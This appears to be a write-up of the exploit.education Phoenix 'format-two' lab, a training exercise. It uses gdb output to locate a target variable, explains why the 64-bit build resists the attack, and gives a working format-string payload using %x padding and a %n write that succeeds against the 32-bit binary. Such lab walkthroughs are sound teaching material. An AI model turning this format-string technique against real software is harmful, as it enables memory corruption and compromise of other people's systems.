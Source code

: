 

First we find the location of changeme and buf
```sh
gef➤  print &changeme
$2 = (<data variable, no debug info> *) 0x600af0 <changeme>
gef➤  print $rbp - 0x100
$3 = (void *) 0x7fffffffe410
```

We need to write \xf0\x0a\x60\x00 into the buffer so that we can write to that address using %n. However, strcopy will stop copying when it reads the \x00, thinking it's the end of a string. This binary is therefor not vulnerable to a buffer overflow.

The 32-bit version (i486) however:
```sh
gef➤  print &changeme
$1 = (<data variable, no debug info> *) 0x8049868 <cha
```

```sh
user@phoenix-amd64:/opt/phoenix/i486$ exploit=$(python -c 'print("\x68\x98\x04\x08" + "AAAABBBB" + " %x "*14)')
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "$exploit"
Welcome to phoenix/format-two, brought to you by https://exploit.education
hAAAABBBB ffffd7ba  100  0  f7f84b67  ffffd5f0  ffffd5d8  80485a0  ffffd4d0  ffffd7ba  100  3e8  8049868  41414141  42424242 Better luck next time!
```


We see our A's and B's at argument number 13 and 14, and the address of changeme is at argument number 12. Therefore:

```sh
user@phoenix-amd64:/opt/phoenix/i486$ exploit=$(python -c 'print("\x68\x98\x04\x08" + "AAAABBBB" + " %x "*11 + "%n")')
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "$exploit"
Welcome to phoenix/format-two, brought to you by https://exploit.education
hAAAABBBB ffffd7c4  100  0  f7f84b67  ffffd600  ffffd5e8  80485a0  ffffd4e0  ffffd7c4  100  3e8 Well done, the 'changeme' variable has been changed correctly!
```
